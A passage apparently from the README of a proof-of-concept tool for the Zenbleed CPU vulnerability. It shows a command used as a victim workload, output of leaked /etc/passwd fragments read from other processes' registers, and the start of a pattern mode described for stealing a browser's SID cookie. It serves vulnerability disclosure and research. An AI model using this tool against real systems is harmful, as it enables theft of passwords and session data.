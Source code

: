 For example, a command like `while true; do sort < /etc/passwd > /dev/null; done`.

This should generate some recognizable register throughput, like this:

```
$ ./zenleak
Thread 0x7f26b92346c0 running on CPU 0
Thread 0x7f26b8a336c0 running on CPU 2
Thread 12: "999:999:systemd "
Thread 12: ":Gnome Display M"
Thread 12: "sr/sbin/nologin "
Thread 12: "ent daemon,,,:/v"
Thread 12: "S daemon,,,:/run"
Thread 12: "System (admin):/"
Thread 12: "sr/sbin/nologin "
Thread 12: "lseAudio daemon,"
Thread 12: "sr/sbin/nologin "
Thread 12: "999:999:systemd "
Thread 12: "sr/sbin/nologin "
Thread 12: "/run/speech-disp"
Thread 12: "sr/sbin/nologin "
Thread 12: "Dispatcher,,,:/r"
Thread 12: "edebian:x:1000:"
Thread 12: "Dispatcher,,,:/r"
Thread 12: "/root:/bin/bash "
Thread 12: "System (admin):/"
Thread 12: "ent daemon,,,:/v"
Thread 12: ":Gnome Display M"
Thread 08: "lseAudio daemon,"
Thread 08: "ent daemon,,,:/v"
Thread 08: "sr/sbin/nologin "
Thread 08: "lseAudio daemon,"
```

This demonstrates that you can read the registers of other processes.

The AVX registers are often used for high performance string processing by
system libraries. This means that very high volumes of sensitive data pass
through them.

##### Advanced Usage

The `zenbleed` tool has multiple options for investigating this vulnerability.

> By default, zenbleed only prints ASCII. If you want to see all values, use
> the option `-a`.

###### Pattern Mode

Pattern mode attempts to automatically reconstruct secrets and passwords.

This works best against software that continuously moves a lot of strings
around, such as web browsers, busy servers, and so on.

For example, imagine that we would like to steal a cookie called `SID` from a
browser session.
